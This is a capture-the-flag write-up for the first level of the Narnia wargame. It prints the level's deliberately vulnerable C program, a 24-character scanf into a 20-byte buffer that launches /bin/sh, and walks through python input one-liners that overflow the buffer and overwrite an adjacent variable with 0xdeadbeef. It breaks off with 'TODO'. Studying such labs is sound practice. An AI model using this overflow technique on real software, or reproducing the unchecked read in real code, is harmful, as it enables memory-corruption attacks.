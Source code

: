 
#Narnia0

narnia.labs.overthewire.org

**Username:** narnia0
**Password:** narnia0
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Before we do anything, let's go ahead and run the program and see what it does.
>
>```
># ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: AAAAAAAA  
>buf: AAAAAAAA  
>val: 0x41414141  
>WAY OFF!!!!  
>```
> Ok, it basically just tell's us that we need to correct a value and asks for input.  After accepting the input it looks like it just tells us the value that we submitted and the value of the area we are supposed to overwrite.
>
> Let's go ahead and take a peek at the source:
>
>```C
>/*
>    This program is free software; you can redistribute it and/or modify
>    it under the terms of the GNU General Public License as published by
>    the Free Software Foundation; either version 2 of the License, or
>    (at your option) any later version.
>
>    This program is distributed in the hope that it will be useful,
>    but WITHOUT ANY WARRANTY; without even the implied warranty of
>    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
>    GNU General Public License for more details.
>
>    You should have received a copy of the GNU General Public License
>    along with this program; if not, write to the Free Software
>    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
>*/
>#include <stdio.h>
>#include <stdlib.h>
>
>int main(){
>	long val=0x41414141;
>	char buf[20];
>
>	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
>	printf("Here is your chance: ");
>	scanf("%24s",&buf);
>
>	printf("buf: %s\n",buf);
>	printf("val: 0x%08x\n",val);
>
>	if(val==0xdeadbeef)
>		system("/bin/sh");
>	else {
>		printf("WAY OFF!!!!\n");
>		exit(1);
>	}
>
>	return 0;
>}
>```
>
> Alright, we can see the declaration of the buffer ```char buf[20];``` and where the input is read in ```scanf("%24s",&buf);```.  It also looks like if we get our values correct that we will be rewarded quite generously with a shell.  How nice! Let's play around with this new information a bit.  If the buffer was only supposed to be 20 characters, let's see what happens when our input is 21 characters, but since it looks like the buffer we want to overwrite has ```0x41414141``` already in it we are going to have to use another letter besides ```A``` as our input. We'll settle for ```R```.  Just as a quick side note, rather than inputting the values by hand each time let's utilize python to make life easier and just pipe in the input.
>
>```
># python -c 'print "R"*21' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRR  
>val: 0x41410052  
>WAY OFF!!!!  
>```
>
> Hmm, it looks like we overwrote one character with the null value at the end of the input overwriting a second.  It also looks like it started overwriting from the back, so we'll need to remember to take the endianness into account for our final input.  Let's try overwriting all 4 characters of the buffer.
>
>```
># python -c 'print "R"*24' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRRRRR  
>val: 0x52525252  
>WAY OFF!!!!  
>```
>
> Perfect, we overwrote the whole buffer with our input.  Now, lets start trying to fit ```0xdeadbeef``` in there.  Since the hex values for ```0xdeadbeef``` don't match up to ascii characters we need a way to insert them as input.  We are already using python for the repetitive input, let's just back off our number of ```R``` and tag on hex values to the end of that string and see what it does.
>
>```
># python -c 'print "R"*20+"\xde\xad\xbe\xef"' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRޭ�  
>val: 0xefbeadde  
>WAY OFF!!!!  
>```
> Our buffer shows that we inserted ```RRRRRRRRRRRRRRRRRRRRޭ�``` which we obviously wouldn't have been able to type in.  However, we forget about the little endian part and our value aren't in the correct order.  Let's fix that.
>
>```
># python -c 'print "R"*20+"\xef\xbe\xad\xde"' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRﾭ  
>val: 0xdeadbeef  
>```
>
> Well, we didn't get the ```WAY OFF!!!``` message, but no shell. TODO

